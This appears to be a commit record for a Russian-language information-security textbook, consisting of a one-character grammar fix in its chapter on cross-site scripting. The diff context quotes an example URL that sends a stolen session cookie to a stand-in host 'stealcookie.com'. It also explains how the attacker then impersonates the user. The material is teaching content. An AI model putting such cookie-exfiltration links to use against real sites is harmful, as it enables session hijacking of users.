

Before and after one commit to vlsergey/infosec, a LaTeX book (Information Security.tex, which reads xss.tex): part of page 237 of 317, cut so that both start at the same text. Compiled offline with pdfLaTeX.

Commit message:
Update xss.tex
это продолжение предложение, т.к. до этого стоит ";" -> "в" с маленькой буквы

```diff
--- a/xss.tex
+++ b/xss.tex
@@ -31,7 +31,7 @@ auth=AJHVML43LDSL42SC6DF;
 http://stealcookie.com?auth=AJHVML43LDSL42SC6DF;
 \end{verbatim} \end{center}
 
-В результате злоумышленник получит cookie, используя который он может заходить на веб-сайт под видом пользователя.
+в результате злоумышленник получит cookie, используя который он может заходить на веб-сайт под видом пользователя.
 
 Вставка гиперссылок является наиболее частой XSS-атакой. Иногда ссылки кодируются шестнадцатеричными числами вида \texttt{\%NN}, чтобы не вызывать сомнения у пользователя текстом ссылки.
 %Браузер самостоятельно не может отослать данные на другой сайт, отличный от текущего, поэтому передаваемая информация содержится в гиперссылках.
```
